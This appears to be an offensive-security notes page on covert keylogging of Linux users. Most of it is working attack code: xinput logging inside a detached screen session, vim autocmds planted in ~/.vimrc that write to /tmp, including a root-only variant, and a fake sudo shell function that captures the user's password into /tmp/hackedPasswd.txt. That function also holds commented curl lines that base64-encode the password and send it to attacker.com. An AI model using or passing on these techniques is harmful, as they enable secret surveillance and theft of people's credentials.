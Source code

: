 # Keylogging

## 01 - `script`

Run a multiplexer terminal program to leave it in the background.

```
$ screen -S keylogger

$ export DISPLAY=:0.0

$ export | grep -i display
```

Exporting the keyboard mapping will show the keybindings that can be translated to actual keystrokes.

```
$ xmodmap -pke > xmodmap-pke.txt

$ head -n20 xmodmap-pke.txt
```

Find the virtual core keyboard to record keystrokes then detach the session to leave it in the background with (`CTRL+D`).

```
$ xinput list

$ script -c "xinput test <X_id>" -a xinput-keylogger.log
```

While it's still running in the background use `xkeyscan` ( a python script is included in the references below) to convert the decimal base 10 values to printable ASCII characters.

```
$ python xkeyscan.py xinput-keylogger.log
```

## 02 - `vim`

### 2.1 - Common File Destinations

```
$HOME/.vimrc
$HOME/.vim/plugin/settings.vim
```

### 2.2 - Vim scripts for logging keystrokes

Normal user

```
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
```

Under elevated user context when the user is running as `sudo`.

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
:endif
```

### 2.3 - Insert keylogging configuration

Gather timestamps and backup the config resource file. Also try to improvise by instead of getting rid of the rest of the vim config content's. Modify it to ensure it contains no syntax errors. Then wait for the target when he interacts with VIM.

```
$ stat ~/.vimrc
$ cp ~/.vimrc /tmp/.vimrc.bak
$ echo "" > ~/.vimrc
$ cat ~/.vimrc
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
```

## 03 - `sudo`

```
$ type sudo
sudo is /usr/bin/sudo
```

```bash
function sudo () {
  # A "realsudo" variable is created. It calls the `which` command to locate
  # the path to the real sudo binary. This is used later in the function to
  # execute the target's desired command.
  realsudo="$(which sudo)"

  # The `read` command will prompt (`-p`) the target with a convincing password
  # request. The `-s` argument hides the input password, just as the real
  # sudo command would. The target password is then set in the "inputPasswd"
  # variable.
  read -s -p "[sudo] password for $USER: " inputPasswd

  # There are two `printf` commands here, separated by a semicolon.
  # The first simply prints a new line in the terminal, as the real sudo
  # does. The second writes the target's username and password to a
  # file called "hackedPasswd.txt" in the /tmp directory.
  printf "\n"; printf '%s\n' "$USER : $inputPasswd" >/tmp/hackedPasswd.txt

  # As an alternative to writing the password to the /tmp directory,
  # it can be exfiltrated to the attacker's server. Uncomment the below
  # "encoded" and "curl" lines to enable this function. The password
  # is encoded with `base64` to make it easier to transmit in the URL.
  # encoded=$(printf '%s' "$inputPasswd" | base64) >/dev/null 2>&1
  # curl -s "http://attacker.com/$USER:$encoded" >/dev/null 2>&1

  # The `-S` option allows users to input their sudo password using the command
  # line. This is used to run an arbitrary `exit` command (`-c`) as the root
  # user (`-u`) to unlock the sudo timeout function. This command and its
  # output are hidden (/dev/null) from the target. It's only here to allow
  # sudo usage for future commands.
  # For more on sudo timeouts and /dev/null, see:
  # https://itsfoss.com/change-sudo-password-timeout-ubuntu/
  # https://stackoverflow.com/questions/10508843/what-is-dev-null-21
  $realsudo -S <<< "$inputPasswd" -u root bash -c "exit" >/dev/null 2>&1

  # With the sudo timeout engaged, privileged commands can be run without
  # prompting the user for a password. This line will execute the target's
  # desired command.
  $realsudo "${@:1}"
}

export -f /usr/bin/sudo sudo
```

```
$ type sudo
sudo is a function
..[omitted]..
```

---
## References

### Backlinks

- [[Screen]]

### Source Repositories

- [porterhau5: xkeyscan](https://github.com/porterhau5/xkeyscan)

### Red Hat

- [Red Hat: Record your terminal with script and scriptreplay](https://www.redhat.com/sysadmin/record-terminal-script-scriptreplay )

### porterhau5

- [porterhau5: Using xkeyscan to Parse an X-Based Linux Keylogger](https://porterhau5.com/blog/xkeyscan-parse-linux-keylogger/)

- [porterhau5: Natively Keylogging NIX Systems](http://legacy.popped.io/2016/06/natively-keylogging-nix-systems.html)

### astr0baby

- [astr0baby: Solaris 11 and Metasploit](https://astr0baby.wordpress.com/2014/04/16/solaris-11-and-metasplolit/)

### Null Byte

- [Null Byte: Steal Ubuntu & MacOS Sudo Passwords Without Any Cracking](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/)

### Und3rf10w

- [Und3rf10w: Tales from the Terminal - Silly Sudo Backdoors](https://und3rf10w.github.io/posts/2022/01/07/sudodoor.html)